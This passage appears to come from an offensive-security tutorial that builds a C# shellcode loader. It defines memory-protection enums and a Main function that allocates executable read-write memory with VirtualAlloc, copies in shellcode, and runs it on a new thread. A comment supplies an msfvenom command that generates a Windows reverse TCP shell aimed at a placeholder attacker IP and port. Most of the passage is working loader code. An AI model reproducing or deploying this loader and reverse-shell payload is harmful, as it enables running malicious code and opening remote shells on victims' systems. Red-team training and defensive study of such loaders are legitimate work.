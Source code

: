 Some of these functions will take arguments that will need some sort of hexadecimal-esque value but we can use Enumerators, or enums, to assign these values to strings. Let's do add these enums to our Methods class.

```c#
    public enum StateEnum
    {
        MEM_COMMIT = 0x1000,
        MEM_RESERVE = 0x2000,
        MEM_FREE = 0x10000,
    }

    public enum Protection
    {
        PAGE_READONLY = 0x02,
        PAGE_READWRITE = 0x04,
        PAGE_EXECUTE = 0x10,
        PAGE_EXECUTE_READ = 0x20,
        PAGE_EXECUTE_READWRITE = 0x40,
    }
```
Now that these values are set, let's write our main function which will handle the logic of our program.

```c#
namespace ShellcodeLoader
{
    class Program
    {
        static void Main(string[] args)
        {
            //Insert shellcode here.
            //msfvenom -p windows/x64/shell_reverse_tcp LHOST=attackerIP LPORT=attackerPort -f csharp
            byte[] shellcode = new byte[] { };

            //Set up VirtualAlloc.
            IntPtr funcAddr;

            funcAddr = Methods.VirtualAlloc(
                IntPtr.Zero,
                (ulong)shellcode.Length,
                (uint)Methods.StateEnum.MEM_COMMIT,
                (uint)Methods.Protection.PAGE_EXECUTE_READWRITE);

            //Copy shellcode into memory.
            Marshal.Copy(shellcode, 0, funcAddr, shellcode.Length);

            //Set up variables that will be used before executing the code.
            IntPtr hThread = IntPtr.Zero;
            uint threadId = 0;
            IntPtr pinfo = IntPtr.Zero;

            //Execute the code.
            hThread = Methods.CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            Methods.WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;

        }
    }
}
```
